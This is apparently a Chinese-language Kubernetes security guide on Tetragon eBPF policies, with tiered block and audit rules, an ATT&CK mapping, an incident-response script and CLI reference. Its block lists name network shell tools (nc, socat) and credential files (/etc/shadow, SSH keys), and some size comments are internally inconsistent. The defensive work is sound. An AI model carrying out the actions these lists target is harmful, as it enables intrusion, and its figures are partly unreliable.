

## 10.2 策略分级体系 (Policy Tier System)

```yaml
# 策略分级 - P0: 立即阻断（高置信度威胁）
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: tier-p0-block-critical
  labels:
    security.company.com/tier: "P0"
    security.company.com/action: "BLOCK"
spec:
  kprobes:
  # 绝对阻断：内核模块加载（必然恶意）
  - call: "sys_init_module"
    syscall: true
    selectors:
    - actions:
      - action: Signal
        argSig: 9
      - action: Post
  # 绝对阻断：逃逸到宿主机 MNT NS
  - call: "sys_mount"
    syscall: true
    args:
    - index: 0
      type: "string"
    selectors:
    - matchArgs:
      - index: 0
        operator: "Equal"
        values:
        - "/"
      actions:
      - action: Signal
        argSig: 9
      - action: Post
---
# 策略分级 - P1: 告警 + 可选阻断（中高置信度）
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: tier-p1-alert-with-block
  labels:
    security.company.com/tier: "P1"
    security.company.com/action: "ALERT_BLOCK"
spec:
  kprobes:
  - call: "sys_execve"
    syscall: true
    args:
    - index: 0
      type: "string"
    selectors:
    - matchArgs:
      - index: 0
        operator: "Prefix"
        values:
        - "/tmp/"
        - "/dev/shm/"
      actions:
      - action: Post
      - action: Signal
        argSig: 9
---
# 策略分级 - P2: 仅审计（低置信度，减少误报）
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: tier-p2-audit-only
  labels:
    security.company.com/tier: "P2"
    security.company.com/action: "AUDIT"
spec:
  kprobes:
  - call: "sys_execve"
    syscall: true
    args:
    - index: 0
      type: "string"
    selectors:
    - matchArgs:
      - index: 0
        operator: "In"
        values:
        - "/usr/bin/curl"
        - "/usr/bin/wget"
      actions:
      - action: Post
        rateLimit: "60s"
```

## 10.3 GitOps 驱动的策略管理 (GitOps Policy Management)

```yaml
# ArgoCD Application - TracingPolicy GitOps 管理
apiVersion: argoproj.io/v1alpha1
kind: Application
metadata:
  name: tetragon-policies
  namespace: argocd
spec:
  project: security
  source:
    repoURL: https://github.com/company/security-policies
    targetRevision: main
    path: tetragon/policies
    directory:
      recurse: true
      include: "*.yaml"
  destination:
    server: https://kubernetes.default.svc
    namespace: kube-system
  syncPolicy:
    automated:
      prune: true
      selfHeal: true
    syncOptions:
    - CreateNamespace=false
    - PrunePropagationPolicy=foreground
    - ApplyOutOfSyncOnly=true
  # 策略变更需要手动审批（安全关键操作）
  ignoreDifferences:
  - group: cilium.io
    kind: TracingPolicy
    jsonPointers:
    - /metadata/resourceVersion
```

```
# 策略仓库目录结构
security-policies/
├── tetragon/
│   ├── policies/
│   │   ├── p0-critical/
│   │   │   ├── kernel-module-block.yaml
│   │   │   ├── container-escape-block.yaml
│   │   │   └── privilege-escalation-block.yaml
│   │   ├── p1-high/
│   │   │   ├── sensitive-file-access.yaml
│   │   │   ├── suspicious-exec.yaml
│   │   │   └── reverse-shell-detect.yaml
│   │   ├── p2-medium/
│   │   │   ├── network-egress-monitor.yaml
│   │   │   └── process-execution-audit.yaml
│   │   └── namespace-scoped/
│   │       ├── production/
│   │       │   └── strict-exec-policy.yaml
│   │       └── development/
│   │           └── relaxed-policy.yaml
│   └── README.md
```

## 10.4 MITRE ATT&CK 映射 (MITRE ATT&CK Mapping)

| ATT&CK 技战术 | ATT&CK 技术 | Tetragon 检测 | 覆盖级别 |
|-------------|------------|--------------|---------|
| **执行 (Execution)** | T1059 - Command and Scripting | sys_execve 监控 bash/sh | ✅ 高 |
| **执行** | T1203 - 客户端漏洞利用 | mprotect PROT_EXEC 监控 | ✅ 高 |
| **持久化 (Persistence)** | T1543 - 创建系统服务 | sys_write /etc/systemd 监控 | ✅ 中 |
| **持久化** | T1053 - 计划任务 | sys_write /etc/cron* 监控 | ✅ 中 |
| **权限提升 (Privilege Escalation)** | T1548 - Setuid/Setgid | sys_chmod/sys_setuid 监控 | ✅ 高 |
| **权限提升** | T1611 - 容器逃逸 | mount/unshare/proc 逃逸检测 | ✅ 高 |
| **防御绕过 (Defense Evasion)** | T1562 - 禁用安全工具 | security_file_open 监控 | ✅ 中 |
| **防御绕过** | T1070 - 清除痕迹 | sys_unlink /var/log 监控 | ✅ 中 |
| **凭证访问 (Credential Access)** | T1552 - 不安全凭证 | security_file_open /etc/shadow | ✅ 高 |
| **凭证访问** | T1003 - OS 凭证转储 | ptrace/mem 访问监控 | ✅ 高 |
| **发现 (Discovery)** | T1082 - 系统信息发现 | /proc /sys 访问监控 | ✅ 低 |
| **横向移动 (Lateral Movement)** | T1021 - 远程服务 SSH | tcp_connect dport:22 监控 | ✅ 高 |
| **命令控制 (C2)** | T1571 - 非标准端口 | tcp_connect 异常端口监控 | ✅ 中 |
| **影响 (Impact)** | T1485 - 数据销毁 | vfs_write 关键路径监控 | ✅ 中 |

## 10.5 合规性与审计 (Compliance & Audit)

```yaml
# TracingPolicy: CIS Kubernetes Benchmark 合规审计
# 对应 CIS K8s Benchmark 5.2.x 控制项
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: cis-k8s-compliance-audit
  labels:
    compliance: "CIS-K8s-Benchmark"
    version: "1.8"
spec:
  kprobes:
  # CIS 5.2.2: 最小化特权容器的使用
  - call: "cap_capable"
    syscall: false
    args:
    - index: 2
      type: "int"
    selectors:
    - matchArgs:
      - index: 2
        operator: "In"
        values:
        - "21"  # CAP_SYS_ADMIN
      actions:
      - action: Post  # 审计记录所有 SYS_ADMIN 使用
  
  # CIS 5.2.8: 限制访问主机进程 ID 命名空间
  - call: "sys_execve"
    syscall: true
    args:
    - index: 0
      type: "string"
    selectors:
    - matchNamespaces:
      - namespace: Pid  # PID 命名空间
        operator: In
        values: []  # 与主机共享 PID NS（违规）
      actions:
      - action: Post
      
  # PCI DSS 10.2.x: 所有个人用户的操作审计
  # SOC2 CC6.8: 防止数据泄露
  - call: "security_file_open"
    syscall: false
    args:
    - index: 0
      type: "file"
    selectors:
    - matchArgs:
      - index: 0
        operator: "Prefix"
        values:
        - "/var/lib/postgresql/"
        - "/var/lib/mysql/"
        - "/data/redis/"
      actions:
      - action: Post  # 审计所有数据库文件访问
```

## 10.6 安全事件响应剧本 (Incident Response Playbook)



> ⚠️ **🟡 中危变更** — 变更集群资源状态，建议先 --dry-run 或 diff 确认
> - `kubectl apply/create/replace`：创建/变更集群资源
> - `kubectl exec`：进入容器执行命令，可能改变容器状态

``` bash
# 🟡 中风险：会修改集群/资源状态，执行前请确认目标、影响范围与授权
#!/bin/bash
# 安全事件响应脚本 - P0 容器逃逸

NAMESPACE=$1
POD_NAME=$2
NODE_NAME=$3

echo "=== P0 安全事件响应启动 ==="
echo "受感染 Pod: ${NAMESPACE}/${POD_NAME}"
echo "节点: ${NODE_NAME}"

echo "=== 步骤1: 立即隔离 Pod 网络 ==="
cat <<EOF | kubectl apply -f -
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: emergency-isolate-${POD_NAME}
  namespace: ${NAMESPACE}
spec:
  podSelector:
    matchLabels:
      app: $(kubectl get pod ${POD_NAME} -n ${NAMESPACE} -o jsonpath='{.metadata.labels.app}')
  policyTypes:
  - Ingress
  - Egress
  # 空规则 = 拒绝所有流量
EOF

echo "=== 步骤2: 保存 Pod 现场 ==="
# 导出 Pod 详情
kubectl get pod ${POD_NAME} -n ${NAMESPACE} -o yaml > /tmp/incident-pod-${POD_NAME}.yaml
# 导出容器进程列表
kubectl exec ${POD_NAME} -n ${NAMESPACE} -- ps auxf > /tmp/incident-ps-${POD_NAME}.txt 2>/dev/null
# 导出网络连接
kubectl exec ${POD_NAME} -n ${NAMESPACE} -- ss -tunapl > /tmp/incident-netstat-${POD_NAME}.txt 2>/dev/null

echo "=== 步骤3: 收集 Tetragon 事件（过去 30 分钟）==="
kubectl exec -n kube-system daemonset/tetragon -- \
  tetra getevents --pod ${POD_NAME} --namespace ${NAMESPACE} \
  --output json > /tmp/incident-tetragon-events-${POD_NAME}.json

echo "=== 步骤4: 发送告警通知 ==="
curl -X POST ${SLACK_WEBHOOK_URL} \
  -H 'Content-type: application/json' \
  --data "{
    \"text\": \"🚨 *P0 安全事件*: 容器逃逸尝试\n*Pod*: \`${NAMESPACE}/${POD_NAME}\`\n*节点*: \`${NODE_NAME}\`\n*时间*: $(date -u)\n*状态*: 网络已隔离，取证数据已收集\"
  }"

echo "=== 步骤5: 上传取证证据 ==="
kubectl create secret generic incident-evidence-${POD_NAME} \
  --from-file=/tmp/incident-pod-${POD_NAME}.yaml \
  --from-file=/tmp/incident-ps-${POD_NAME}.txt \
  --from-file=/tmp/incident-tetragon-events-${POD_NAME}.json \
  -n security-forensics

echo "=== P0 响应初始步骤完成 ==="
echo "取证数据保存在 Secret: security-forensics/incident-evidence-${POD_NAME}"
echo "等待安全团队接管..."
```
## 10.7 性能调优最佳实践 (Performance Tuning)

```yaml
# 生产环境 Tetragon 性能优化配置
apiVersion: v1
kind: ConfigMap
metadata:
  name: tetragon-perf-config
  namespace: kube-system
data:
  # 事件缓冲区大小（增大可减少事件丢失）
  export-max-size-bytes: "10485760"  # 10MB
  
  # Ring Buffer 大小（必须是 2 的幂次方）
  # 默认 65536 * 4096 = 256MB
  # 建议根据节点内存调整
  ring-buffer-size: "262144"  # 1GB (262144 * 4096)
  
  # 减少 CPU 密集型操作的开销
  # 聚合相同事件（减少重复）
  events-batch-size: "10"
  events-batch-timeout: "1000ms"
```

```yaml
# 策略优化: 精确过滤减少事件量
# 不推荐（过于宽泛，产生大量事件）
# - call: "sys_execve"
#   syscall: true
#   selectors: []  # 没有任何过滤条件

# 推荐（精确过滤，减少开销）
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: optimized-exec-monitor
spec:
  kprobes:
  - call: "sys_execve"
    syscall: true
    args:
    - index: 0
      type: "string"
    selectors:
    # 只监控可疑二进制文件（白名单反转）
    - matchBinaries:
      - operator: NotIn
        values:
        # 白名单: 常见合法工具不监控
        - "/usr/local/bin/node"
        - "/usr/bin/python3"
        - "/usr/lib/jvm/java-17-openjdk/bin/java"
        - "/usr/bin/kubectl"
        - "/usr/local/go/bin/go"
      matchNamespaces:
      - namespace: Mnt
        operator: NotIn
        values: []  # 仅监控容器内（排除宿主机）
      actions:
      - action: Post
        rateLimit: "10s"  # 每 10 秒每进程最多一条
        ratelimitScope: "process"
```

## 10.8 多集群安全运营 (Multi-Cluster Security Operations)



---

<!-- chunk: 附录 A：完整 TracingPolicy 策略库参考 -->## 附录 A：完整 TracingPolicy 策略库参考

```yaml
# 全量安全策略合集（生产可用）
# 保存为 tetragon-full-security-policy.yaml
---
# 1. 进程执行安全基线
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: process-security-baseline
spec:
  kprobes:
  - call: "sys_execve"
    syscall: true
    args:
    - index: 0
      type: "string"
    - index: 1
      type: "string_array"
    selectors:
    - matchArgs:
      - index: 0
        operator: "Prefix"
        values: ["/tmp/", "/dev/shm/", "/var/tmp/", "/run/user/"]
      actions:
      - action: Signal
        argSig: 9
      - action: Post
    - matchArgs:
      - index: 0
        operator: "In"
        values: ["/bin/nc", "/usr/bin/ncat", "/usr/bin/netcat", "/usr/bin/socat"]
      actions:
      - action: Signal
        argSig: 9
      - action: Post
---
# 2. 文件完整性监控
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: file-integrity-monitoring
spec:
  kprobes:
  - call: "security_file_open"
    syscall: false
    args:
    - index: 0
      type: "file"
    selectors:
    - matchArgs:
      - index: 0
        operator: "Prefix"
        values:
        - "/etc/passwd"
        - "/etc/shadow"
        - "/etc/sudoers"
        - "/root/.ssh/"
        - "/etc/kubernetes/"
        - "/var/lib/kubelet/pki/"
      actions:
      - action: Post
---
# 3. 网络安全基线
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: network-security-baseline
spec:
  kprobes:
  - call: "tcp_connect"
    syscall: false
    args:
    - index: 0
      type: "sock"
    selectors:
    - matchArgs:
      - index: 0
        operator: "In"
        values: ["dport:22", "dport:2222", "dport:23"]
      actions:
      - action: Post
      - action: Signal
        argSig: 9
---
# 4. 容器逃逸检测
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: container-escape-prevention
spec:
  kprobes:
  - call: "sys_init_module"
    syscall: true
    selectors:
    - actions:
      - action: Signal
        argSig: 9
      - action: Post
  - call: "sys_unshare"
    syscall: true
    args:
    - index: 0
      type: "int"
    selectors:
    - matchArgs:
      - index: 0
        operator: "Mask"
        values: ["268435456"]  # CLONE_NEWUSER
      actions:
      - action: Signal
        argSig: 9
      - action: Post
```

---

<!-- chunk: 附录 B：tetra CLI 完整命令参考 -->## 附录 B：tetra CLI 完整命令参考

```bash
# === Tetragon 状态检查 ===
tetra status                              # 检查 Tetragon 运行状态
tetra version                             # 查看版本信息

# === 事件查看 ===
tetra getevents                          # 获取所有事件
tetra getevents --follow                 # 实时流式查看
tetra getevents -o compact              # 紧凑格式输出
tetra getevents -o json                 # JSON 格式输出
tetra getevents --namespace production  # 过滤命名空间
tetra getevents --pod my-pod            # 过滤 Pod
tetra getevents --host                  # 只看主机事件（非容器）
tetra getevents --event-types PROCESS_EXEC,PROCESS_KPROBE  # 过滤事件类型

# === 策略管理 ===
tetra tracingpolicy list                 # 列出所有策略
tetra tracingpolicy add policy.yaml     # 添加策略
tetra tracingpolicy delete policy-name  # 删除策略
tetra tracingpolicy enable policy-name  # 启用策略
tetra tracingpolicy disable policy-name # 禁用策略

# === 进程树查看 ===
tetra getevents --follow | \
  jq -r '[.time, .process_exec.process.pid, 
          .process_exec.process.binary, 
          .process_exec.process.pod.name] | @tsv'

# === 高级过滤 ===
# 查看所有被 Kill 的进程
tetra getevents --follow | \
  jq 'select(.process_kprobe.action == "SIGKILL") | 
  {time, pod: .process_kprobe.process.pod.name, 
   binary: .process_kprobe.process.binary,
   func: .process_kprobe.function_name}'

# 查看特定函数的所有事件
tetra getevents --follow | \
  jq 'select(.process_kprobe.function_name == "tcp_connect")'
```

---

<!-- chunk: 附录 C：常见问题与排查 (FAQ & Troubleshooting) -->## 附录 C：常见问题与排查 (FAQ & Troubleshooting)

## Q1: Tetragon 策略加载失败

``` bash
# 🟢 低风险：只读/信息收集，通常无副作用
# 检查策略加载状态
kubectl describe tracingpolicy <policy-name>
kubectl logs -n kube-system daemonset/tetragon | grep -i "error|failed"

# 检查内核 BTF 支持
ls /sys/kernel/btf/vmlinux
bpftool btf dump id 1 | head -5
```
## Q2: 大量误报如何减少

```bash
# 分析误报来源
tetra getevents --follow | \
  jq -r '.process_kprobe | 
  [.function_name, .process.binary, .process.pod.name] | @tsv' | \
  sort | uniq -c | sort -rn | head -20

# 在策略中添加白名单
# matchBinaries operator: NotIn 排除已知合法二进制
```

## Q3: 性能问题排查

> ⚠️ **🟡 中危变更** — 变更集群资源状态，建议先 --dry-run 或 diff 确认
> - `kubectl exec`：进入容器执行命令，可能改变容器状态

``` bash
# 🟡 中风险：会修改集群/资源状态，执行前请确认目标、影响范围与授权
# 检查事件丢失率
kubectl exec -n kube-system daemonset/tetragon -- \
  tetra metrics | grep "tetragon_events_lost"

# 检查 Ring Buffer 使用率  
kubectl exec -n kube-system daemonset/tetragon -- \
  cat /proc/$(pidof tetragon)/status | grep VmRSS
```
---

*文档版本: v1.0 | 最后更新: 2026-03-03 | 维护团队: Platform Security Engineering*

---

<!-- chunk: Obsidian 相关文档 -->## Obsidian 相关文档

- domain-35-ebpf-technology MOC
- [[domain-03-networking-traffic/README.md|Domain 03: eBPF 技术体系 (eBPF Technology Stack)]]
- Domain-35 eBPF 技术 — 开源项目索引
- eBPF 架构基础与程序类型 (eBPF Architecture Fundamentals and Program T...
- eBPF Map 类型与数据结构 (eBPF Map Types and Data Structures)
- Cilium CNI 架构与部署 (Cilium CNI Architecture and Deployment)
- Cilium 网络策略 L3/L4/L7 (Cilium Network Policy L3/L4/L7)
- Cilium Service Mesh 无 Sidecar 架构 (Cilium Service Mesh Sideca...
- Hubble 网络可观测性 (Hubble Network Observability)
- bcc 与 bpftrace 工具链 (bcc and bpftrace Tools)
- eBPF 性能优化实践 (eBPF Performance Optimization Practice)
- eBPF 安全应用案例 (eBPF Security Applications and Use Cases)

## See Also

- 04-cilium-network-policy
- 05-cilium-service-mesh
- 07-hubble-network-observability
- 08-bcc-bpftrace-tools


<!-- risk-assessed -->
